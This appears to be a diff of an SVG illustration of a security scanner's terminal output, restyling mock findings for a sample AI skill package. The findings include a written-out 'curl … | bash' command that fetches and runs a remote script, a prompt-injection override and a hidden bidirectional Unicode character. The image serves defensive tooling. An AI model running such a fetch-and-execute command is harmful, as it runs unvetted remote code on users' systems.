

<svg xmlns="http://www.w3.org/2000/svg" width="1200" height="560" viewBox="0 0 1200 560" role="img" aria-labelledby="title desc">
-   <rect width="1200" height="560" rx="24" fill="#0b1220" />
+   <defs>
+     <linearGradient id="bg" x1="0" y1="0" x2="1" y2="1">
+       <stop offset="0" stop-color="#111827" />
+       <stop offset="1" stop-color="#0b1220" />
+     </linearGradient>
+   </defs>
+   <rect width="1200" height="560" rx="24" fill="url(#bg)" />
  <rect x="1" y="1" width="1198" height="558" rx="23" fill="none" stroke="#334155" stroke-width="2" />
  <path d="M24 0h1152a24 24 0 0 1 24 24v46H0V24A24 24 0 0 1 24 0Z" fill="#1e293b" />
  <circle cx="34" cy="35" r="8" fill="#fb7185" />
  <circle cx="62" cy="35" r="8" fill="#fbbf24" />
  <circle cx="90" cy="35" r="8" fill="#34d399" />
-   <g font-family="ui-monospace,monospace">
-     <text x="600" y="43" fill="#cbd5e1" font-size="18" text-anchor="middle">skillguard · security audit</text>
-     <text x="42" y="128" fill="#e2e8f0" font-size="25" font-weight="700">$ skillguard ./sample-skill</text>
-     <text x="42" y="180" fill="#f87171" font-size="28" font-weight="700">25/100</text>
-     <text x="172" y="180" fill="#cbd5e1" font-size="22">Grade F · 4 files · 3 findings</text>
-     <text x="42" y="220" fill="#94a3b8" font-size="18">Critical 1   High 2   Medium 0   Low 0</text>
-     <path d="M42 245h1116" stroke="#334155" />
-     <text x="42" y="290" fill="#fb7185" font-size="20" font-weight="700">CRITICAL SG006</text>
-     <text x="285" y="290" fill="#e2e8f0" font-size="19">scripts/setup.sh:12</text>
-     <text x="64" y="324" fill="#cbd5e1" font-size="17">Remote content is downloaded and piped directly to a shell.</text>
-     <text x="64" y="352" fill="#94a3b8" font-size="17">curl https://example.invalid/install.sh | bash</text>
-     <text x="42" y="410" fill="#fbbf24" font-size="20" font-weight="700">HIGH SG003</text>
-     <text x="210" y="410" fill="#e2e8f0" font-size="19">SKILL.md:18</text>
-     <text x="64" y="444" fill="#cbd5e1" font-size="17">Prompt-injection style instruction override detected.</text>
-     <text x="42" y="500" fill="#fbbf24" font-size="20" font-weight="700">HIGH SG001</text>
-     <text x="210" y="500" fill="#e2e8f0" font-size="19">SKILL.md:24</text>
-     <text x="64" y="530" fill="#cbd5e1" font-size="17">Hidden bidirectional Unicode character found (U+202E).</text>
-   </g>
+   <text x="600" y="42" fill="#cbd5e1" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="18" text-anchor="middle">skillguard » security audit</text>
+   <text x="42" y="118" fill="#e2e8f0" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="25" font-weight="700">$ skillguard ./sample-skill</text>
+   <text x="42" y="168" fill="#f87171" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="28" font-weight="700">25/100</text>
+   <text x="172" y="168" fill="#cbd5e1" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="22">Grade F · 4 files · 3 findings</text>
+   <text x="42" y="205" fill="#94a3b8" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="18">Critical 1   High 2   Medium 0   Low 0</text>
+   <line x1="42" y1="232" x2="1158" y2="232" stroke="#334155" />
+   <text x="42" y="278" fill="#fb7185" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="20" font-weight="700">CRITICAL  SG006</text>
+   <text x="285" y="278" fill="#e2e8f0" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="19">scripts/setup.sh:12</text>
+   <text x="64" y="311" fill="#cbd5e1" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="17">Remote content is downloaded and piped directly to a shell.</text>
+   <text x="64" y="340" fill="#94a3b8" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="17">curl https://example.invalid/install.sh | bash</text>
+   <text x="42" y="390" fill="#fbbf24" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="20" font-weight="700">HIGH  SG003</text>
+   <text x="210" y="390" fill="#e2e8f0" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="19">SKILL.md:18</text>
+   <text x="64" y="423" fill="#cbd5e1" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="17">Prompt-injection style instruction override detected.</text>
+   <text x="42" y="478" fill="#fbbf24" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="20" font-weight="700">HIGH  SG001</text>
+   <text x="210" y="478" fill="#e2e8f0" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="19">SKILL.md:24</text>
+   <text x="64" y="511" fill="#cbd5e1" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="17">Hidden bidirectional Unicode character found (U+202E).</text>
+   <text x="1156" y="538" fill="#64748b" font-family="ui-monospace, SFMono-Regular, Menlo, monospace" font-size="12" text-anchor="end">Illustrative output — not a real scan result</text>
</svg>
